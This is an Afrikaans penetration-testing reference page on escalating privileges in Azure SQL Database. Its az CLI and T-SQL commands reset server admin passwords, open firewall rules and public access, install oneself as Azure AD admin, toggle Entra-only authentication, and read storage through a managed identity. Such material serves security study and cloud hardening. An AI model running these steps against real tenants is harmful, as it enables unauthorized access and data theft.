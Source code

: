 # Az - SQL Databasis Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Databasis Privesc

Vir meer inligting oor SQL Databasis, kyk:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Met hierdie toestemmings kan 'n gebruiker privilige-eskalasie uitvoer deur Azure SQL bedieners op te dateer of te skep en kritieke konfigurasies te wysig, insluitend administratiewe akrediteer. Hierdie toestemming stel die gebruiker in staat om bediener eienskappe op te dateer, insluitend die SQL bediener admin wagwoord, wat ongeoorloofde toegang of beheer oor die bediener moontlik maak. Hulle kan ook nuwe bedieners skep, wat potensieel skadu-infrastruktuur vir kwaadwillige doeleindes kan inbring. Dit word veral krities in omgewings waar "Microsoft Entra Authentication Only" gedeaktiveer is, aangesien hulle SQL-gebaseerde verifikasie kan benut om onbeperkte toegang te verkry.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
Boonop is dit nodig om die publieke toegang in te skakel as jy van 'n nie-private eindpunt wil toegang hê, om dit in te skakel:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
Verder, met die regte kan jy die toegewyde identiteit aktiveer, en werk met die bestuurde identiteit wat aan die bediener geheg is. Byvoorbeeld hier met 'n bestuurde identiteit wat toegang tot Azure Storage kan verkry:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

'n Aanvaller kan firewallreëls op Azure SQL-bedieners manipuleer om ongeoorloofde toegang toe te laat. Dit kan uitgebuit word om die bediener oop te maak vir spesifieke IP-adresse of hele IP-reekse, insluitend openbare IP's, wat toegang vir kwaadwillige akteurs moontlik maak. Hierdie post-uitbuiting aktiwiteit kan gebruik word om bestaande netwerkveiligheidsbeheer te omseil, volharding te vestig, of laterale beweging binne die omgewing te fasiliteer deur sensitiewe hulpbronne bloot te stel.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Daarnaast laat die `Microsoft.Sql/servers/outboundFirewallRules/delete` toestemming jou toe om 'n Firewall Reël te verwyder.  
LET WEL: Dit is nodig om die publieke toegang geaktiveer te hê.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Met hierdie toestemming kan jy IPv6 firewall reëls op 'n Azure SQL Server skep, wysig of verwyder. Dit kan 'n aanvaller of gemagtigde gebruiker in staat stel om bestaande netwerk sekuriteitskonfigurasies te omseil en ongemagtigde toegang tot die bediener te verkry. Deur 'n reël toe te voeg wat verkeer van enige IPv6 adres toelaat, kan die aanvaller die bediener oopmaak vir eksterne toegang.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Daarnaast laat die `Microsoft.Sql/servers/ipv6FirewallRules/delete` toestemming jou toe om 'n Firewall Reël te verwyder.  
LET WEL: Dit is nodig om die publieke toegang geaktiveer te hê.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Met hierdie toestemmings kan jy privesc in 'n Azure SQL Server omgewing deur toegang te verkry tot SQL databasisse en kritieke inligting te onttrek. Deur die onderstaande opdrag te gebruik, kan 'n aanvaller of gemagtigde gebruiker hulself of 'n ander rekening as die Azure AD administrateur stel. As "Microsoft Entra Authentication Only" geaktiveer is, kan jy toegang tot die bediener en sy instansies verkry. Hier is die opdrag om die Azure AD administrateur vir 'n SQL bediener in te stel:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Met hierdie toestemmings kan jy "Microsoft Entra Authentication Only" op 'n Azure SQL Server konfigureer en afdwing, wat privilige-escalasie in sekere scenario's kan vergemaklik. 'n Aanvaller of 'n gemagtigde gebruiker met hierdie toestemmings kan Azure AD-slegs autentisering aktiveer of deaktiveer.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
